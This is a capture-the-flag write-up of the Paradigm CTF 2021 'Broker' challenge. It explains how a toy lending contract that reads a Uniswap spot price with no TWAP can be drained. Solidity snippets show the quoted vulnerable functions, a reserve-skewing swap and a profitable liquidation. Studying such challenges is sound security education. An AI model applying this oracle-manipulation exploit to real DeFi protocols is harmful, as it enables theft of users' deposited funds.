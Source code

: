 # Broker Challenge
| Paradigm CTF 2021 Challenge - Oracle Manipulation Hack

## Description & Setup
| This broker has pretty good rates

| ITEM |   Description.  |
| :--- | :-------------- |
| Contract Address <- Our hack target |  [Paradigm-CTF-2021-Broker](https://github.com/paradigmxyz/paradigm-ctf-2021/tree/master/broker/public)     |
| Setup Contract | [Paradigm-CTF-2021-Broker-Setup](https://github.com/paradigmxyz/paradigm-ctf-2021/blob/master/broker/public/contracts/Setup.sol) |
| Solution Contract  |  [Solution](https://github.com/paradigmxyz/paradigm-ctf-2021/blob/master/broker/private/Exploit.sol)                         |

The majority of the setup is in the `Setup.sol` smart contract, it contains:
- AMT Token Contract: been used as the treasury token for lending protocol
- IUniswapV2Factory Interface: interface for Uniswap V2 create pair & Setup
- Setup Contract: create and bootstrap the token/weth pool for borrowing against WETH

Below is the setup logic: 
- 1st create a pair for AMT & WETH
- 2nd transfer 25 WETH & 500,000 AMT token to the pair
- 3rd deposit 25 eth to borrow 250,000 AMT token from the lending protocol

```solidity
  // create and bootstrap the token/weth pool for borrowing against WETH
    constructor() payable {
        require(msg.value == 50 ether);
        weth.deposit{value: msg.value}();

        token = new Token();
        pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
        broker = new Broker(pair, ERC20Like(address(token)));
        token.transfer(address(broker), 500_000 * DECIMALS);

        // 1:25
        weth.transfer(address(pair), 25 ether);
        token.transfer(address(pair), 500_000 * DECIMALS);
        pair.mint(address(this));

        weth.approve(address(broker), type(uint256).max);
        broker.deposit(25 ether);
        broker.borrow(250_000 * DECIMALS);

        totalBefore = weth.balanceOf(address(broker)) + token.balanceOf(address(broker)) / broker.rate();
    }
```

Essentially, `broker.sol` is a simplified version of a ZERO-Interest Rate lending protocol. There are a lot of attack surfaces as a lending protoocl:
- Collaterialized assets has reentrancy risks
- Protocol might have reentrancy risks as well
- Protocol implementation issue
- Oracle attacks / manipulation & more

## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

